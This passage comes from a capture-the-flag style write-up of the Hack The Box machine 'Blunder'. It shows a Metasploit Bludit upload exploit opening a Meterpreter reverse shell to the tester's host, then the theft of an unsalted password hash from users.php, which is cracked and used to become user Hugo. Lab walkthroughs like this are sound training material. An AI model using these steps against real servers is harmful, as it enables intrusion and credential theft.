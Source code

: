 After setting things up, simply type `exploit` or `run`.

{% highlight bash %}
msf6 exploit(linux/http/bludit_upload_images_exec) > run

[*] Started reverse TCP handler on 10.10.14.10:9889 
[+] Logged in as: fergus
[*] Retrieving UUID...
[*] Uploading WlFeAwiWEb.png...
[*] Uploading .htaccess...
[*] Executing WlFeAwiWEb.png...
[*] Sending stage (39189 bytes) to 10.10.10.191
[*] Meterpreter session 1 opened (10.10.14.10:9889 -> 10.10.10.191:54674) at 2020-10-17 18:15:18 +0530
[+] Deleted .htaccess

meterpreter > getuid
Server username: www-data (33)
{% endhighlight %} 

Alright we got a shell on the server as user `www-data`.

### Getting User

During basic enumeration I found a file `user.php` in `/var/www/bludit-3.9.2/bl-content/databases` which had password of users but it was a rabbit hole as those passwords were encrypted with a salt. but on enumerating more in `/var/www` we can found an newer version of bludit `bludit-3.10.0a` and the password’s in newer version’s `user.php` aren’t salted.

{% highlight bash %}
meterpreter > cat users.php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        [REDACTED]
}
{% endhighlight %} 

Throwing the hash `faca404fd5c0a31cf1897b823c695c85cffeb98d` in crackstation gives us user Hugo’s password - `Password120`. To get a shell from meterpreter use shell command and then use `su Hugo` and give the password `Password120` and we got our user.

You can directly jump to [root part](https://fumenoid.github.io/posts/htb-blunder#rooting-the-box)..<br>
I am covering an issue I faced during this box… IDK why but my meterpreter was messing up when I used shell command, maybe I used a wrong payload. So I executed a nc reverse shell command and got another shell nc. _yes I could have changed the meterpreter payload and reused bludit exploit._
